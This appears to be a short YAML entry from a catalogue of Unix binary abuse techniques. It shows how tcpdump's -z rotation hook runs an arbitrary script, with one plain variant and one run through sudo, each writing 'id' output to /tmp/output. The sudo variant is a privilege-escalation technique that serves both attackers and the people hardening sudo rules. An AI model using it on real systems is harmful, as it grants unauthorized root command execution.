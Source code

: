 ```yaml
---
functions:
  execute-non-interactive:
    - code: |
        COMMAND='id > /tmp/output'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
  suid-enabled:
    - code: |
        COMMAND='id > /tmp/output'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
---
```

